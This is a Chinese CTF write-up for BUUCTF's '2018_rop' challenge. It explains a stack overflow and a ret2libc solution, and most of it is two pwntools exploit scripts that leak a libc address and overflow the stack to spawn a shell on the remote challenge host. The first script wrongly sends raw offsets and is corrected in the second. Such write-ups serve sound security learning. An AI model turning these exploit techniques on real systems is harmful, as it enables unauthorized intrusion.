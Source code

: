 ## 铁人三项(第五赛区)_2018_rop

### 原题

![image-20241201141653796](../images/image-20241201141653796.png)

先看保护

![image-20241201141835331](../images/image-20241201141835331.png)

这是一个比较经典的保护机制就只有一个nx的shellcode保护

这里我们看看反编译文件

![image-20241201142054317](../images/image-20241201142054317.png)

这里发现一个漏洞函数位vulnerable_function进去看看

![image-20241201142154643](../images/image-20241201142154643.png)

![image-20241201142212006](../images/image-20241201142212006.png)

那个be_nice_to_people函数的功能取得执行目前进程有效组识别码

因此主要的功能点还是在vulnerable_function中这里可以明显的看出有一个栈溢出并且可以读取输入的string

同时可以看一下字符串发信啊没有我们想要的system函数和/bin/sh函数

猜测需要使用ret2libc的方法

![image-20241201142427330](../images/image-20241201142427330.png)

因此我们使用的exp是

```python
from LibcSearcher import LibcSearcher
from pwn import *
context.log_level='debug'

io = remote("node5.buuoj.cn",26772)
elf = ELF('/home/fofa/2018_rop')

offset = 0x88+4
write_got = elf.got['write']
write_plt = elf.plt['write']
main_addr = elf.sym['main']
payload = b'a'*offset +p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4)
io.sendline(payload)
write_addr = u32(io.recvuntil(b'\xf7')[-4:])
print(hex(write_addr))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr-libc.dump('write')
system = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload = b'a'*offset+p32(0x03cd10)+p32(0)+p32(0x17b8cf)
io.sendline(payload)
io.interactive()
```

但是发现他有着libc的小版本的区别

因此我们要是用[libc database search (blukat.me)](https://libc.blukat.me/?q=write%3A6f0%2Cread%3A620&l=libc6-i386_2.27-3ubuntu1_amd64)这个网站查找system和binsh的libc偏移量

这里发现需要两个地址这里可以找到read和write两个地址因此

![image-20241201142911772](./images/image-20241201142911772.png)

因此我们要把我们的代码libc地址进行替换获取到了新的代码

exp：

```python
from LibcSearcher import LibcSearcher
from pwn import *



context.log_level='debug'

io = remote("node5.buuoj.cn",26772)
elf = ELF('/home/fofa/2018_rop')

offset = 0x88+4
write_got = elf.got['write']
write_plt = elf.plt['write']
main_addr = elf.sym['main']
read_got = elf.got['read']
payload = b'a'*offset +p32(write_plt)+p32(main_addr)+p32(1)+p32(read_got)+p32(4)
io.sendline(payload)
read_addr = u32(io.recvuntil(b'\xf7')[-4:])
print(hex(read_addr))

read_offset = 0x0e5620
system_offset = 0x03cd10
binsh_offset = 0x17b8cf

base_addr = read_addr - read_offset
sys_addr = system_offset + base_addr
bin_addr = binsh_offset + base_addr
print(hex(sys_addr))
print(hex(bin_addr))
payload = b'a'*offset+p32(sys_addr)+p32(0)+p32(bin_addr)
io.sendline(payload)
io.interactive()
```

---

### 总结

这里发现如果没有libc的版本因此我们要使用[libc database search (blukat.me)](https://libc.blukat.me/?q=write%3A6f0%2Cread%3A620&l=libc6-i386_2.27-3ubuntu1_amd64)来查找我们需要的write和sys的等字符串的地址

